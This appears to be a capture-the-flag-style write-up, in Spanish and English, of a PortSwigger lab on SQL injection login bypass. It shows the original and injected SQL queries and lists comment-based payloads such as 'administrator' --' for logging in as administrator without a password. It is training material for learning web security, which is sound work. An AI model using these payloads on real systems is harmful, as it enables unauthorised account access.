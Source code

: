 # `Lab`: SQL injection vulnerability allowing login bypass

- [Lab: SQL injection vulnerability allowing login bypass](https://portswigger.net/web-security/sql-injection/lab-login-bypass)

## Descripción:

This lab contains a SQL injection vulnerability in the login function.

To solve the lab, perform a SQL injection attack that logs in to the application as the `administrator` user.

---

### Explicación:

- En este laboratiorio ya nos dan el nombre del **user** `administrator`, pero no tenemos el **password**.
- El truco está en comentar todo lo que está después del **user** para brincar la condición del **password**.

### Query original:

````sql
select id,username,subscription from users where username = 'administrator' and password = 'p@ssw0rd123-1';
````

### Query inyectada:

````sql
select id,username,subscription from users where username = 'administrator'--' and password = 'p@ssw0rd123-1';
````

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/4cd5611e-0aac-435f-a45d-4a254b669186)


## Solución:

1. Abrir laboratorio y buscar en donde me puedo autenticar

2. Ingresar el usuario `administrator` con el payload `administrator' --` o `administrator' -- -` o `administrator' #` _(O cualquiera de sus versiones)_

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/cb2feaac-5eef-4207-9786-15aa382ef97d)

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/f19586fc-90f0-46e3-8172-66a0c69ccdf9)





